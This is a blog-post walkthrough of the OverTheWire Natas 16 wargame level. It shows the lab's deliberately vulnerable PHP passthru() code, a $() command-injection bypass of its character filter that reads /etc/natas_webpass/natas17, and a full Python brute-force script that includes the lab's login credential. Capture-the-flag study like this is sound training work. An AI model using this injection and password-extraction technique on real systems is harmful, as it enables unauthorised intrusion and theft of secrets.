 ```yaml
---
title: "Overthewire Natas 16 Walkthrough"
layout: post
date: 2018-05-01 22:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 16
---
```


## Challenge

![Markdown Image](/assets/images/natas_16_solution/challenge_page.png)

{% highlight php %}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
{% endhighlight %}


The goal of this level is that we need to bypass the regex filter in order to be able to read the flag in /etc/natas_webpass/natas17. 

## Solution

Reading the source code of the page we can find out that that there is a regex filterzation, and we have to not to use any of the characters in the preg_match() function, so we go the passthru() function to inject and execute a custom command since we have control over the variable $key.

We can use $() in order to inject our commands to the passthru() function, since none of the characters of $() exists in preg_match() filter.

so the final command after injection will look like the following:
{% highlight shell %}
grep -i $(grep /etc/natas_webpass/natas17) dictionary.txt
{% endhighlight %}

We can mimic the same scienario in our local termianl, so we have a better understanding of the situation and how we are gonna solve this challenge. 

Mimicing the challenge, I am going to make some files

flag.txt content
{% highlight raw %}
dGhpc2lzYXRlc3Rtb3RoZXJmdWNrZXJ5b29tYW1hYWFuCg==
{% endhighlight %}

So if we use the following command
{% highlight shell %}
grep -i $(grep ^d /tmp/flag.txt) /etc/passwd
{% endhighlight %}

As we can see the string in flag.txt starts with a 'd', so if we use '^' in order to know the characters in order in the flag file. Starting out with 'd' since flag starts with 'd', the commands will return no result; however, if we choose a character other than 'd' the terminal will hang with result return. This way we will be able to figure out the flag content for this challenge, so we can go to the next level.

Here is the complete solution code for this level.


{% highlight python %}
#!/usr/bin/python
#h15h4m

# way better than the other libs
import requests
from requests.auth import HTTPBasicAuth


chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
string_to_find = "Output:\n<pre>\n</pre>"

target = "http://natas16.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password_chars = ''
password = ''

r = requests.get(target , auth=http_login)

if r.status_code != requests.codes.ok:
	print "[-] Unable to access. Check Authentication."
	exit()

print "[!] cool. We are in!"

print "[!] finding password chars...."

#lets find password chars first easier for brute force later
for x in chars_to_check:
	r = requests.get(target + "?needle=$(grep "+ x +" /etc/natas_webpass/natas17)",auth=http_login )	
	if r.content.find(string_to_find) != -1:
		password_chars = password_chars + x
		
print '[+] password chars: '  +   password_chars

print '[!] brut3 f0rc1ng the p455w0rd......'
for x in range(32):
	for xx in password_chars:
		r = requests.get(target + "?needle=$(grep ^"+ password + xx +" /etc/natas_webpass/natas17)",auth=http_login )
		if r.content.find(string_to_find) != -1:
			password += xx
			break
	
print "[+] password: " + password
{% endhighlight %}


Executing the code
![Markdown Image](/assets/images/natas_16_solution/final_result.png)
